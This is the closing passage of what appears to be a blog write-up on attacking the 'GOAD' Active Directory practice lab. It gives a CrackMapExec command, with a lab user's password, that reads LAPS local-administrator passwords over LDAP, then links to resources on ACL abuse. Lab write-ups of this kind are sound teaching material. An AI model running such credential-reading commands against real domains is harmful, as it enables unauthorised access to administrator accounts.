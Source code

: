 ## Read Laps password

![acl_read_laps.png](/assets/blog/GOAD/acl_read_laps.png)

- To read LAPS password, the easy way is with the cme module

```bash
cme ldap 192.168.56.12 -d essos.local -u jorah.mormont -p 'H0nnor!' --module laps
```

![acl_read_laps_cme.png](/assets/blog/GOAD/acl_read_laps_cme.png)

- Works like a charm :)

## Resources: 

- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
- [https://www.thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse)
- [https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)


Next time, this will be the last blog post of the GOAD writeup series. And it will be on Trusts exploitation ([Goad pwning part12]({% link _posts/2022-12-21-GOADv2-pwning-part12.md %}))